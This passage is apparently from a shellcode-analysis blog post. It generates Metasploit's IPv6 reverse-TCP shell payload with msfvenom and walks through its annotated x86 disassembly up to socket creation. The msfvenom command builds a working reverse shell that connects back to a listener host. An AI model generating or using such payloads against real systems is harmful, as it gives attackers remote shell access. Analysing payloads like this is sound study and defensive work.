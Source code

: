 In this post I'll analyse `linux/x86/shell_reverse_tcp_ipv6`.

### NDISASM

To generate the payload:

```bash
msfvenom -p linux/x86/shell_reverse_tcp_ipv6 LHOST=fe80::250:56ff:fe22:364b LPORT=4444 -o shellcode.bin
```

To analyze it with `ndisasm`:

```bash
ndisasm shellcode.bin -b 32 -p intel
```

It returns the following output (comments are mine though):

```nasm
                            ; EDX:EAX = EBX * 0
00000000  31DB              xor ebx,ebx
00000002  F7E3              mul ebx
```

<figcaption class="figure-caption">Useful for polymorphism: besides `EBX`, they clear `EAX` and `EDX` too</figcaption>

```nasm
                            ; IPPROTO_TCP
00000004  6A06              push byte +0x6

                            ; SOCK_STREAM
00000006  6A01              push byte +0x1

                            ; AF_INET6
00000008  6A0A              push byte +0xa

                            ; pointer to arguments of socket()
0000000A  89E1              mov ecx,esp

                            ; call socketcall(SYS_SOCKET, ...)
0000000C  B066              mov al,0x66
0000000E  B301              mov bl,0x1

                            ; C code: socket(AF_INET6, SOCK_STREAM, IPPROTO_TCP);
00000010  CD80              int 0x80
```

The instructions above create a `TCP` socket based on the `IPv6` protocol. The return value, stored into the register `EAX` (and later moved into `ESI`), is a file descriptor.

```nasm
                            ; save File Descriptor of the socket
00000012  89C6              mov esi,eax

                            ; clear ECX and EBX and push 0x00000000 to the stack
00000014  31C9              xor ecx,ecx
00000016  31DB              xor ebx,ebx
00000018  53                push ebx
```
